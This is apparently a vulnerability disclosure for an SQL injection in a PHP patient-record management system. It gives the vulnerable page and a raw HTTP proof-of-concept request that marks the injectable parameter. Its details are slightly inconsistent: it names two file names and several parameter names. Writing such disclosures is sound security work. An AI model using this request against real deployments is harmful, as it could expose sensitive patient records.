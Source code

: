 # cve1
# patient-record-management-system-in-php has sql injection in dental_pending.php

## supplier 

https://code-projects.org/patient-record-management-system-in-php-with-source-code/#google_vignette

## Vulnerability parameter

/dental_pending.php

## describe

An unrestricted SQL injection attack exists in patient-record-management-system-in-php in dental_not.php. The parameters that can be controlled are as follows: $ia. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of $id parameter is obtained in dental_pending.php , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/0f37fc2c-2899-4001-b0bc-6d427b6507e0)



## POC

```
GET /dental_pending.php?itr_no=1* HTTP/1.1
Host: healthcarepatientrecordmanagementsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=apub8ggoc8777fmi1n9sbu6ca1
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

**Result**

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
